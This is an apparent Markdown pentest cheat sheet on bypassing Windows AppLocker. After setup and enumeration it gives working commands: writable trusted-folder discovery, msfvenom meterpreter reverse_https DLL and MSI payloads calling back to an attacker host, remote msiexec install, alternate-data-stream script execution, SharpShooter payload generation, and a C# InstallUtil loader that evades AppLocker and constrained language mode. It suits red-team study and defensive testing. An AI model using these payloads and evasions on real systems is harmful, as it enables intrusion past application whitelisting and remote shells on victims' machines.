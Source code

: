 # AppLocker Bypass

### Enable AppLocker

In Group Policy Editor (gpedit) navigate to _Local Computer Policy_ -> _Computer Configuration_ -> _Windows Settings_ -> _Security Settings_ -> _Application Control Policies_ and select the _AppLocker_

In the Properties menu, enable AppLocker rules for Executables, Windows Installer files, scripts, and packaged apps. DLL's can be enabled as well in Advanced Tab.&#x20;

For each category, select Configured and Apply.&#x20;

Now open one of the categories and right-click. Select "Create Default Rules".&#x20;

Take the time to inspect each ruleset. When you're done run `gpupdate /force` from an admin command prompt or powershell session. Below will be a few defense evasion techniques.&#x20;

### View Blocked Execution

_EventViewer -> Applications and Services Logs_ -> _Microsoft_ -> _Windows_ -> _AppLocker_

### Enumeration

```
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

#### &#x20;Sysinternal Tools

Script to find trusted folders and output the permissions

```
$tools = "C:\SysinternalsSuite"

C:\SysinternalsSuite\accesschk.exe "<USERNAME>" C:\Windows -wus -accepteula | out-file -FilePath C:/users/<USER>/Desktop/permissions.txt

foreach($line in Get-Content  C:/users/<USER>/Desktop/permissions.txt) {
    if($line.StartsWith("RW") -or $line.StartsWith("W"))
    {
    $line.Substring(3) | out-file -FilePath  C:/users/<USER>/Desktop/files.txt -Append
    }
}

foreach($file_path in Get-Content C:/users/<USER>/Desktop/files.txt){
if(Test-Path -Path $file_path -PathType Container)
    {
        cd $tools
        icacls.exe $file_path | out-file -FilePath C:/users/<USER>/Desktop/folder-permissions.txt -Append
    }
}
```

Found interesting folder path. Used in Trusted Folders example below.&#x20;

```
C:\Windows\ServiceProfiles\LocalService\AppData\Local\Microsoft\Dlna\DeviceIcons 

**NT AUTHORITY\Authenticated Users:(OI)(CI)(F)**
BUILTIN\Users:(OI)(CI)(F)
NT AUTHORITY\LOCAL SERVICE:(I)(OI)(CI)(F)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
```

### Trusted Folders

Creating a javascript POC to see if code execution is allowed in a folder. Saved as test.js in folder path mentioned above.&#x20;

```
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```

Execute script

```
CMD > .\test.js
```

The same concept applied to DLLs as well

Generate msfvenom dll

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f dll -o msfdll.dll
```

copy to whitelisted folder and run

```
rundll32 C:\Windows\ServiceProfiles\LocalService\AppData\Local\Microsoft\Dlna\DeviceIconsmsfdll.dll,run
```

### Bypass MSI

Generate payload

```
root@kali: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f msi -o /var/www/html/msi_payload.msi
```

On Victim

```
msiexec /q/i http://192.168.49.115/msi_payload.msi
```

### Alternate Data Stream

Create alternate data stream to readable and writeable file

```
type test.js > "C:\Users\Rick.Sanchez\Random_log.log:test.js"
```

Opening the file will execute primary stream. Using the following command will execute the ADS

```
wscript "C:\Users\Rick.Sanchez\Random_log.log:test.js"
```

#### Getting a Shell with ADS

generate raw payload

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin
```

Create jscript payload with [SuperSharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
./SuperSharpShooter.py --dotnetver 4 --payload js --rawscfile rawsc.bin --output test  --stageless
```

create alternate data stream to readable and writeable file (TeamViewer Log)

```
type test.js > "C:\Users\Rick.Sanchez\Random_log.log:test.js"
```

Opening file will execute primary stream. using the following command will execute the ADS

```
wscript "C:\Users\Rick.Sanchez\Random_log.log"
```

### UninstallUtil

A combination of AppLocker and CLM bypass



```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            //String cmd = "REPLACE ME WITH PAYLOAD"
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Users\\Rick.Sanchez\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    
```

Using Uninstalls to bypass Applocker

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```
